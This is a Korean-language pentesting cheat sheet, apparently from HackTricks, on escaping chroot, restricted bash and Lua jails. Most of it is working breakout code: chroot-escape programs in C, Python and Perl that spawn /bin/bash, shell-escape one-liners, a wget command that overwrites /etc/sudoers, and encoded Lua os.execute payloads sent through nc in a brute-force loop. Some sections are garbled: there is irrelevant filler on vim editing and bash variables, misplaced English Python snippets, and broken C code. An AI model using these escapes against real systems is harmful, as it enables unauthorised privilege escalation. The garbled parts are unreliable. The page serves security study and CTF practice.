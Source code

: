 # Escaping from Jails

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)를 **팔로우**하세요.
* **HackTricks**와 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

## **GTFOBins**

**"Shell" 속성을 가진 이진 파일을 실행할 수 있는지 확인하려면** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **에서 검색하세요.**

## Chroot 탈출

[wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations)에서: chroot 메커니즘은 **root 권한을 가진 사용자에 의한 의도적인 조작을 방어하기 위한 것이 아닙니다**. 대부분의 시스템에서 chroot 컨텍스트는 제대로 스택되지 않으며 충분한 권한을 가진 chrooted 프로그램은 탈출을 위해 두 번째 chroot를 수행할 수 있습니다.\
일반적으로 이는 chroot 내에서 root가 되어야 탈출할 수 있다는 것을 의미합니다.

{% hint style="success" %}
**chw00t** [**도구**](https://github.com/earthquake/chw00t)는 다음 시나리오를 악용하고 `chroot`에서 탈출하기 위해 만들어졌습니다.
{% endhint %}

### Root + CWD

{% hint style="warning" %}
chroot 내에서 **root** 권한을 가지고 있다면 **다른 chroot를 생성**하여 **탈출**할 수 있습니다. 이는 2개의 chroot가 동시에 존재할 수 없기 때문에 (Linux에서) 새 폴더를 생성한 다음 **새 폴더에 새로운 chroot를 생성**하면서 **chroot 외부에 있게 되면** 이제 **새로운 chroot 외부에 있게** 됩니다.

이는 일반적으로 chroot가 작업 디렉토리를 지정한 디렉토리로 이동시키지 않기 때문에 chroot를 생성할 수 있지만 chroot 외부에 있을 수 있습니다.
{% endhint %}

일반적으로 chroot 감옥 내에서 `chroot` 이진 파일을 찾을 수 없지만 **이진 파일을 컴파일, 업로드 및 실행**할 수 있습니다:

<details>

<summary>C: break_chroot.c</summary>

\`\`\`c #include #include #include

//gcc break\_chroot.c -o break\_chroot

int main(void) { mkdir("chroot-dir", 0755); chroot("chroot-dir"); for(int i = 0; i < 1000; i++) { chdir(".."); } chroot("."); system("/bin/bash"); }

````
</details>

<details>

<summary>파이썬</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
````

</details>

<details>

<summary>펄 (Perl)</summary>

\`\`\`perl #!/usr/bin/perl mkdir "chroot-dir"; chroot "chroot-dir"; foreach my $i (0..1000) { chdir ".." } chroot "."; system("/bin/bash"); \`\`\`

</details>

### 루트 + 저장된 fd

{% hint style="warning" %}
이 경우는 이전 경우와 유사하지만, 이 경우에는 **공격자가 현재 디렉토리에 파일 디스크립터를 저장**하고, 그런 다음 **새 폴더에 chroot를 생성**합니다. 마지막으로, 그는 chroot 외부에서 해당 FD에 **접근**할 수 있으므로 **탈출**합니다.
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>

\`\`\`c #include #include #include

//gcc break\_chroot.c -o break\_chroot

int main(void) { mkdir("tmpdir", 0755); dir\_fd = open(".", O\_RDONLY); if(chroot("tmpdir")){ perror("chroot"); } fchdir(dir\_fd); close(dir\_fd); for(x = 0; x < 1000; x++) chdir(".."); chroot("."); }

````
</details>

### Root + Fork + UDS (유닉스 도메인 소켓)

<div data-gb-custom-block data-tag="hint" data-style='warning'>

FD는 유닉스 도메인 소켓을 통해 전달될 수 있으므로:

* 자식 프로세스 생성 (fork)
* 부모와 자식이 대화할 수 있는 UDS 생성
* 자식 프로세스에서 다른 폴더에 chroot 실행
* 부모 프로세스에서 새로운 자식 프로세스 chroot 외부의 폴더의 FD 생성
* UDS를 사용하여 그 FD를 자식 프로세스에 전달
* 자식 프로세스는 해당 FD로 chdir하고, chroot 외부에 있기 때문에 감옥에서 탈출할 수 있음

</div>

### &#x20;Root + Mount

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* 루트 장치 (/)를 chroot 내부의 디렉토리에 마운트
* 해당 디렉토리로 chroot

이것은 Linux에서 가능합니다.

</div>

### Root + /proc

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* chroot 내부의 디렉토리에 procfs 마운트 (아직 마운트되지 않은 경우)
* /proc/1/root와 같이 루트/현재 작업 디렉토리 항목이 다른 pid를 찾습니다.
* 해당 항목으로 chroot

</div>

### Root(?) + Fork

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* Fork(자식 프로세스)를 생성하고, FS 내부의 다른 폴더로 chroot하고 해당 폴더로 CD합니다.
* 부모 프로세스에서 자식 프로세스가 있는 폴더를 chroot 이전 폴더로 이동합니다.
* 이 자식 프로세스는 chroot 외부에서 자신을 찾을 수 있습니다.

</div>

### ptrace

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* 이전에 사용자는 자신의 프로세스를 자체 프로세스에서 디버그할 수 있었습니다. 그러나 이제는 기본적으로 불가능합니다.
* 그래도 가능한 경우, 프로세스에 ptrace를 사용하여 셸코드를 실행할 수 있습니다 ([예제 참조](linux-capabilities.md#cap\_sys\_ptrace)).

</div>

## Bash 감옥

### 열거

감옥에 대한 정보 가져오기:
```bash
echo $SHELL
echo $PATH
env
export
pwd
````

#### PATH 수정

PATH 환경 변수를 수정할 수 있는지 확인합니다.

```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```

#### vim 사용하기

Vim은 강력한 텍스트 편집기로, 제한된 bash 환경에서 특권 상승을 위해 사용될 수 있습니다. 다음은 vim을 사용하여 특정 파일을 편집하는 방법입니다.

1. Vim을 실행하려면 다음 명령을 입력합니다.

```bash
vim [파일명]
```

2. Vim 편집기가 열리면 `i`를 눌러 편집 모드로 전환합니다.
3. 파일을 편집합니다.
4. 편집이 완료되면 `Esc` 키를 누르고 `:wq`를 입력하여 저장하고 종료합니다.

이제 Vim을 사용하여 제한된 bash 환경에서 파일을 편집할 수 있습니다.

```bash
:set shell=/bin/sh
:shell
```

#### 스크립트 생성

\_/bin/bash\_를 내용으로 하는 실행 가능한 파일을 생성할 수 있는지 확인합니다.

```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```

#### SSH를 통해 bash 얻기

SSH를 통해 접근하는 경우 다음 트릭을 사용하여 bash 쉘을 실행할 수 있습니다:

```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```

#### 선언

Bash에서 변수를 선언하는 방법은 다음과 같습니다:

```bash
변수명=값
```

예를 들어, 변수 `name`에 "John"이라는 값을 할당하려면 다음과 같이 작성합니다:

```bash
name=John
```

변수를 사용할 때는 `$` 기호를 사용하여 변수 값을 참조합니다. 예를 들어, `name` 변수의 값을 출력하려면 다음과 같이 작성합니다:

```bash
echo $name
```

변수를 사용하여 다른 명령어의 인수로 전달할 수도 있습니다. 예를 들어, `name` 변수의 값을 사용하여 `hello`라는 스크립트를 실행하려면 다음과 같이 작성합니다:

```bash
./hello $name
```

변수를 삭제하려면 `unset` 명령어를 사용합니다. 예를 들어, `name` 변수를 삭제하려면 다음과 같이 작성합니다:

```bash
unset name
```

```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```

#### Wget

예를 들어 sudoers 파일을 덮어쓸 수 있습니다.

```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```

#### 기타 트릭

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells\*\*]\(https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io/\*\*]\(https/gtfobins.github.io)\
**다음 페이지도 흥미로울 수 있습니다:**

### Python Jails

다음 페이지에서 파이썬 감옥에서 탈출하는 트릭을 찾을 수 있습니다:

### Lua Jails

이 페이지에서는 루아 내에서 사용할 수 있는 전역 함수를 찾을 수 있습니다: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**명령 실행과 함께 평가하기:**

```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```

**점을 사용하지 않고 라이브러리의 함수를 호출하는 몇 가지 트릭**:

1. Using the `importlib` module:

```python
import importlib
mylib = importlib.import_module('mylib')
myfunc = getattr(mylib, 'myfunc')
myfunc()
```

2. Using the `__import__` function:

```python
mylib = __import__('mylib')
myfunc = getattr(mylib, 'myfunc')
myfunc()
```

3. Using the `exec` function:

```python
exec('from mylib import myfunc')
myfunc()
```

4. Using the `globals` function:

```python
globals()['myfunc'] = __import__('mylib').myfunc
myfunc()
```

These tricks allow you to call functions from a library without using the dot notation, which can be useful in certain scenarios where the dot notation is restricted or not allowed.

```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```

라이브러리의 함수 열거하기:

```bash
for k,v in pairs(string) do print(k,v) end
```

다른 lua 환경에서 이전의 원 라이너를 실행할 때마다 함수의 순서가 변경됩니다. 따라서 특정 함수를 실행해야 하는 경우 다른 lua 환경을 로드하고 le 라이브러리의 첫 번째 함수를 호출하는 브루트 포스 공격을 수행할 수 있습니다.

```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```

**대화형 lua 쉘 얻기**: 제한된 lua 쉘 내에서 새로운 lua 쉘(그리고 희망적으로 무제한 쉘)을 얻으려면 다음을 호출하십시오:

```bash
debug.debug()
```

### 참고 자료

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (슬라이드: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))



</details>
